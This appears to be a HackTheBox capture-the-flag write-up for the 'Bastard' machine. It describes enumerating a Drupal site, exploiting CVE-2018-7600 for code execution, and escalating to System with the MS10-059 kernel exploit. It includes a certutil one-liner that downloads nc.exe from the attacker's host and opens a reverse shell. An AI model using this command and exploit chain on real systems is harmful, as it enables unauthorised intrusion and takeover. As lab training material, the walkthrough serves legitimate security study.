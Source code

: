 ```yaml
---
layout: page
title: Bastard - HackTheBox
permalink: /posts/ctf/hackthebox/bastard.html
---
```


# Bastard - HackTheBox
----

First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 10.10.10.9`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/44dc899b-7c65-4270-a277-570ca8bc03be/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/44dc899b-7c65-4270-a277-570ca8bc03be/Untitled.png)

We have a few ports open but port 80 looks the most interesting.  Lets check it out.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7a165a04-dd6a-43f7-886e-eba82ff3112e/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7a165a04-dd6a-43f7-886e-eba82ff3112e/Untitled.png)

Looks like we have a Drupal page running, I like to run **doopescan** when I come across a Drupal site first but keep in mind the scan takes a while to finish.  I did some default passwords and basic enumeration while waiting but didn't find much so decided to wait for the results from **doopescan**

`droopescan scan drupal -u http://10.10.10.9`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6b46c712-8c7e-49cd-a21f-fc62f7245ac1/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6b46c712-8c7e-49cd-a21f-fc62f7245ac1/Untitled.png)

Now that we have a version, lets research and see if we can find a public exploit available.  I found an exploit for RCE in the Services module that I started to try however found another vulnerability in CVE-2018-7600 that seemed to be an easier path. Here is the Service module exploit.

[](https://www.exploit-db.com/exploits/41564)

Here is the PoC I used for CVE-2018-7600.  

[pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

Pretty straight forward exploit, Lets try it out.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/12945df3-0fcb-4ea9-ab4d-91d21899efd0/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/12945df3-0fcb-4ea9-ab4d-91d21899efd0/Untitled.png)

Looks like we have code execution!  Lets see if we can get a shell now.  I hosted up **nc.exe** and downloaded/executed it with this one liner to get a shell on the machine.

`certutil -urlcache -f [http://10.10.14.31/nc.exe](http://10.10.14.31/nc.exe) nc.exe & nc.exe -e cmd.exe 10.10.14.31 53`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/284eca60-db57-4216-970e-07a9e052f9f3/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/284eca60-db57-4216-970e-07a9e052f9f3/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/01d631da-390d-4506-9fd7-22bc1f81f208/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/01d631da-390d-4506-9fd7-22bc1f81f208/Untitled.png)

We are in.  I copied WinPEAS over but couldn't get the executable to run, probably a .NET issue.  I ran the .bat version but didn't find much so decided to run WinPrivChecker and found a number of possible kernel exploits.  I like abatchy17's GitHub collection of kernel exploits found here..

[abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fbbf9ca7-b81a-44f4-81c4-a75adaa388d9/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fbbf9ca7-b81a-44f4-81c4-a75adaa388d9/Untitled.png)

I went through some of these and found that MS10-059.exe worked great for getting a reverse shell as System!

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fed9d7fa-a8ab-440f-ba08-9edb0392ad86/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fed9d7fa-a8ab-440f-ba08-9edb0392ad86/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cd44953c-3628-4a6b-b3fa-e00cc76e975e/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cd44953c-3628-4a6b-b3fa-e00cc76e975e/Untitled.png)
